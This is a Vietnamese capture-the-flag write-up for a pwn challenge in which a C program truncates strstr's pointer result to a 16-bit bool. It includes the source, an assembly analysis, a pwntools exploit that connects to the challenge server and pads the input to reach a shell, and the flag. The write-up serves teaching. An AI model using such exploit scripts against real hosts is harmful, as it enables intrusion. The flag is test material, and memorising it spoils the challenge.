

### what_is_your_dream

#### Review

Đây là một câu mình đánh giá nó khá là dễ ở đoạn exploit, nó chỉ khó ở khúc tìm bug còn mọi thứ chỉ là cơ bản. Vì giải này cho các bạn k17 nên mình cho luôn cả source để dễ tiếp cận. 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#ifdef bool
#undef bool
#endif
typedef short bool;
#define SIZE 100000
bool check_dream(char *key, char *temp)
{
    return strstr(temp,key);
}
const static char *my_dream = "Wanna.w^n";
int main() 
{
    char *buf = malloc(SIZE);
    printf("welcome to Wanna.w^n, this is your gift: %p\n",buf);
    printf("Do you want to know what my dream is?\n");
    printf("You have to find it by yourself ");
    fflush(stdout);
    fgets(buf,SIZE,stdin);
    if(check_dream(my_dream,buf))
    {
        printf("too bad, I wish you could see my dream\n");
        printf("now GET OUT!!!\n");
        exit(-1);
    }
    if(strstr(buf,my_dream))
    {
        printf("yay, congratulation on finding my dream\n");
        printf("I hope you enjoy it <3\n");
        system("/bin/sh");
    }else{
        puts("Goodbye!");
    }

    free(buf);
return 0;
}
```



Test cơ bản thì đây là một file ELF 64-bits và không bị stripped, check các mitigation thì bài này chỉ có NX là được bật và RELRO thì partial. NX(Non-executable) được bật có nghĩa là chúng ta không thể truyền shell và execution trực tiếp vào được, Còn RELRO (Relocation Read-Only) Partial điều này có nghĩa là các hàm ở trong GOT (Global Offset Table) sẽ xuất hiện phía trên bss ở trong bộ nhớ, attacker sẽ không thể overflow trực tiếp vào GOT vì flow của stack có xu hướng đi xuống, tuy nhiên nó sẽ không thể ngăn cản khỏi việc bị ghi đè bởi bug format string. 

#### Analyze & Find bug

Bài này vì cho source nên phân tích khá là dễ,
* Từ trên xuống thì bài này cho biến buf mang kiểu char được khởi tạo với `malloc(100000)` tuy nhiên bài này biến buf chỉ sử dụng 1 lần và ở dưới đã free nên không có exploit ở trên heap được.
* Tiếp theo nó in ra cho mình `địa chỉ của biến buf`, đề bài cho cái này khá là quan trọng, mọi thứ đề bài cho đều có mục đích của nó hết sau đó nó chỉ in ra một số câu hỏi linh tinh rồi cho mình nhập vào input thông qua biến buf bằng `fgets(buf,100000,stdin)`, vì đọc 100000 vừa tròn với size của biến buf vậy nên không có bug buffer overflow ở đây. 
* Tiếp theo nó sẽ chạy xuống hàm if đầu tiên. Ở hàm if đầu tiên thì nó sẽ chạy hàm `check_dream(my_dream,buf)`. Hàm `check_dream(char *key, char *temp)` thì nó sẽ return giá trị `bool` thông qua hàm `strstr(temp,key)`, return giá trị `bool` thông qua hàm `strstr()` nó khá là quan trọng nên hãy chú ý đến nó. biến `my_dream` ở bên trên có kiểu `const static char` mang giá trị `"Wanna.w^n"`, còn biến `buf` là biến mình nhập input vào nó sẽ lưu ở đó. Nếu các bạn đã học qua về ngôn ngữ C thì chắc hẳn sẽ biết hàm `strstr()` sẽ trả về cái gì. Hàm `strstr(a,b)` nó sẽ tìm chuỗi con `b` ở trong chuỗi mẹ `a` nếu mà nó không tìm thấy nó sẽ trả về giá trị `pointer NULL` ngược lại thì nó sẽ trả về con trỏ trỏ tới vị trí đầu tiên của chuỗi con `b` được tìm thấy ở trong chuỗi mẹ `a`. Ở trong ngôn ngữ `C` mọi thứ khác `0` thì đều là `true`. Điều này khá là cơ bản ở trong mảng pwn vậy nên không có gì đáng để đi sâu vào. 
*  Ở hàm if thứ 2 thì bài này sẽ gọi trực tiếp hàm `strstr(buf,my_dream)` chứ không gọi thông qua hàm nữa. 

*Tóm lại ở bài này chúng ta phải nhập làm sao để cho hàm if đầu tiên chính xác là hàm check_dream(my_dream,buf) return về false để nó không chạy các câu lệnh bên trong hàm if và chúng ta phải thỏa mãn hàm if thứ 2 sao hàm strstr(buf,my_dream) return về true để có chạy các câu lệnh bên trong nó*

```Vậy bug ở bài này nằm ở đâu? Hay nói cách khác làm sao để có thể thỏa mãn hàm if thứ 2 nhưng không thỏa mãn hàm if thứ nhất thông qua biến buf của mình?```

Nếu như bạn vẫn chưa hiểu mình đang cần điều gì thì nên lướt lên trên đọc lại để có thể nắm rõ hơn về đề. 

--- 

CHÍNH XÁC BUG NẰM Ở HÀM 
```c
bool check_dream(char *key, char *temp)
{
    return strstr(temp,key);
} 
```
Tại sao bug nằm ở hàm này? Thì ở trên mình đã nói về return giá trị `bool`. Ở trong `C` thì mọi thứ đều `true` nếu khác `0`. Khi chúng ta debug thì có thể thấy hàm này nó chỉ đọc 2 bytes cuối thanh ghi rax, ví dụ thanh ghi rax có giá trị như sau `0x555555500` thì nó chỉ đọc 2 bytes cuối là `00` ta có thể thấy điều này ở trong `assembly code`

```assembly
.text:00000000004012E6                 call    check_dream
.text:00000000004012EB                 test    ax, ax
```

Lợi dụng điều này, khi nhập input vào biến buf thì ta có thể align địa chỉ của biến `my_dream` mà ta gửi sẽ có format như kiểu `0x55555555500` thì chúng ta đã có thể thỏa mãn giá trị `bool` ở hàm if đầu tiên trả về giá trị `false` trong khi tất cả bytes còn lại là địa chỉ của biến `my_dream` thì true. 

Ta có thể hàm if thứ 2 nó kiểm tra nguyên thanh ghi rax 
```assembly
0000000000401323                 call    _strstr
0000000000401328                 test    rax, rax
```

#### Exploit 

```py
from pwn import * 

elf = context.binary = ELF('./what_is_your_dream')
# r = process('./what_is_your_dream')
r = remote('45.122.249.68',10021)
context.log_level = 'info'
r.recvuntil(b'gift: ')
leak = int(r.recvline(),16) 
print(hex(leak))
print(hex(leak & 0xffff)) 
pad = 0x10000 - (leak&0xffff) 
payload = b'a'*pad + b'Wanna.w^n' 
# print(payload)
r.sendlineafter(b'yourself ',payload)
r.interactive()
```

*Ở bài này mình làm đề dựa trên sự thật rằng giá trị bool nó rất là nguy hiểm nếu như bạn không hiểu về nó. Điều đó mình học được ở comment trong topic này https://news.ycombinator.com/item?id=6309008 và flag chính là nội dung của comment đó*

```W1{d0nt_Us3_b0ol_1n_c_if_y0u_d0nt_g3t_it!!!1!}```


